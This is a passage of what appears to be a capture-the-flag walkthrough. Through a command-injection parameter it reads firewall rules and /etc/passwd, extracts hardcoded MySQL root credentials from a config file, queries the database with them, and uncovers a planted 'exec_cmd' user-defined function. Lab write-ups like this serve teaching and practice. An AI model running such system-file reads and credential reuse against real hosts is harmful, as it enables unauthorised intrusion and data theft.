 Unfortunately the connection does not respond, so there might be firewall rules:
```
cmd=cat /etc/iptables/rules.v4
```
```
(...)
-A OUTPUT -p tcp -m tcp --sport 22 -m tcp -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 80 -m tcp -j ACCEPT
```

The source port has to be either port 80 or port 22 and every other connection gets dropped.
As it is not possible to get a shell on the box, lets search for sensitive information to get access.

### Enumerating the System

The file _/etc/passwd_ contains all users and the user _mysql_ has an interactive shell set and a user directory which is both unusual:
```
cmd=cat /etc/passwd
```
```
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
```

The credentials for the **MySQL** database can be found in the source code from before in _shop/includes/config.inc.php_:
```
define('DB_TYPE', 'mysql');
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'changethis');
define('DB_DATABASE', 'ecom');
```

Testing if the `mysql` command can retrieve information out of the database:
```
cmd=mysql -u root -pchangethis -e 'show databases;'
```

As this box was compromised, the attacker may have planted persistence mechanisms in the database.
A common way to achieve persistence in **MySQL** is to use **User Defined Functions (UDF)**, which provide a way to create custom functionality on the server and is stored in the _mysql.func_ table:
```
cmd=mysql -u root -pchangethis -e 'SELECT * FROM mysql.func;'
```
```
exec_cmd	0	libmysql.so	function
```

The function _exec_cmd_ makes use of the _libmysql.so_ library:
```
cmd=find / | grep libmysql.so
```
```
/usr/lib/mysql/plugin/libmysql.so
```

